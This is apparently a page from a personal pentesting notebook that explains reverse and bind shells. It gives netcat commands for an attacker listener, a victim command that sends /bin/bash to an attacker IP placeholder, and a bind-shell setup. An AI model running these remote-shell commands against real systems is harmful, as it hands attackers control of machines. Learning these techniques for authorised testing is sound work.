

repository: RayenManai/MyHackBook · page: Fundamentals/shells.html · generator: sphinx

# Shells

## Reverse Shell

A victim (target) connects back to the attacker (attackbox is listening). This is the most commonly used pattern.

- Attacker:

```

nc -nlvp 4444

```

- Victim:

```

nc <attacker-ip> 4444 -e /bin/bash

```

## Bind Shell

The victim opens a listening port and the attacker connects to it. Useful for external tests when the attacker's IP may vary or when port forwarding isn't available.

- Victim:

```
nc -nvlp 4444 -e /bin/bash
```

- Attacker:

```
nc <victim-ip> 4444
```
